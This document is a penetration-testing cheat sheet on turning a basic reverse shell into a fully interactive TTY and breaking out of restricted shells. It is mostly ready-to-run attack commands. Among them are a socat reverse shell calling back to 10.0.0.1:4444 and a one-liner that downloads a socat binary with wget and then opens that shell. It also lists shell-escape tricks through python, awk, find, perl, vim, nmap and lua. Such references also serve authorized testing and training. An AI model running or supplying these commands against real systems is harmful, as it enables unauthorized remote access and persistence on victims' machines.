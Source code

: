 ## ** Gaining TTY **


Check to see if we have a TTY:

 

    if [ -t 1 ] ; then echo terminal; else echo "not a terminal"; fi

Python
------

.. code-block:: none

    python -c 'import pty; pty.spawn("/bin/sh")'
    python -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'

    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
    export TERM=xterm-256color
    alias ll='ls -lsaht --color=auto'
    Ctrl + Z   [Background Process]
    stty raw -echo; fg; reset
    stty columns 200 rows 200

socat
-----

Run listener on local machine:

.. code-block:: none

    socat file:`tty`,raw,echo=0 tcp-listen:4444

Run on remote machine:

.. code-block:: none

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444

If socat isn't installed, you can try and download a static binary and run that:

.. code-block:: none

    wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444

netcat "magic"
--------------

 

    # In reverse shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl-Z

    # In Kali
    echo $TERM # note this value
    stty -a # note values
    stty raw -echo; fg

    # In reverse shell
    reset
    export SHELL=bash
    export TERM=xterm-256color # value from before
    stty rows <num> columns <cols> # values from before

sh
--

.. code-block:: none

    /bin/sh -i

awk
---

.. code-block:: none

    awk 'BEGIN {system("/bin/bash")}'

find
----

.. code-block:: none

    find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;

Perl
----

.. code-block:: none

    perl -e 'exec "/bin/sh";'

    OR

    perl: exec "/bin/sh";

Ruby
----

.. code-block:: none

    ruby: exec "/bin/sh"

vi / vim
--------

.. code-block:: none

    vi --not-a-term -c '!sh'

.. code-block:: none

    vim --not-a-term --cmd '!sh' --cmd ':q!'

If --cmd is not enabled, first create a file with the following contents:

.. code-block:: none

    :set shell=/bin/bash
    :shell

Now execute the following:

.. code-block:: none

    vi -s <file>

    OR

    vim -s <file>

Lua
---

.. code-block:: none

    lua: os.execute('/bin/sh')

From within IRB
---------------

.. code-block:: none

    exec "/bin/sh"

From within vi / vim
--------------------

.. code-block:: none

    :!bash

    OR

    :set shell=/bin/bash:shell

From within nmap
----------------

.. code-block:: none

    !sh

echo
----

Note: This may be limited to LShell, a limited shell implemented in Python.

.. code-block:: none

    echo os.system('/bin/bash')

Resources
---------

https://netsec.ws/?p=337
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
